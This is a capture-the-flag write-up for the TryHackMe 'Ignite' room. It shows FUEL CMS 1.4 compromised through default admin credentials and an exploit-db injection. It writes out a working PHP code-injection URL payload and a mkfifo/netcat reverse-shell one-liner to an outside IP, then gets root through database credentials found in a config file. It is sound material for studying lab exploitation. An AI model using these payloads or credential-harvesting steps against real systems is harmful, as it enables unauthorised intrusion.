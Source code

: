 # Ignite

[Ignite](https://tryhackme.com/room/ignite)

## Solution

- nmap scan 80

On the website there is a section

```
To access the FUEL admin, go to:
http://10.10.143.19/fuel
User name: admin
Password: admin (you can and should change this password and admin user information after logging in)
```

and the credentials work.

First thing that jumped to me was to create a page with a php payload, but that
did not work. It kept showing the original page instead of what I was trying to
overwrite.

Next thing is to google `fuel 1.4 exploit` and we find
https://www.exploit-db.com/exploits/50477. I tried to copy paste in the url box
the string that is the payload in the script and it looks like it manages to
execute shell code.

```
http://<ip>/fuel/pages/select/?filter='+pi(print($a='system'))+$a('"whoami"')+'
```

but how does it work? TODO

Next we can spawn a revshell to make it easier to work with the machine. Run
the exploit script with the following command.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.27.183 6969 >/tmp/f
```

Then we cd into /home/www-data and cat the flag.

For privesc I first tried to run linpeas, but it kept hanging. The next option
was to check for interesting files inside the application. An interesting
directory is located at `/var/www/html/fuel/application/config`. It contains
configuration for different stuff. We can just search trough each file and
check for passwords. Since we saw that there is a mysql user we can think that
maybe there are some passwords for that database. Inside the `database.php` is
an entry for `'username' => 'root'` and `'password' => 'mememe'`. We can try
this using `su`. And it works.
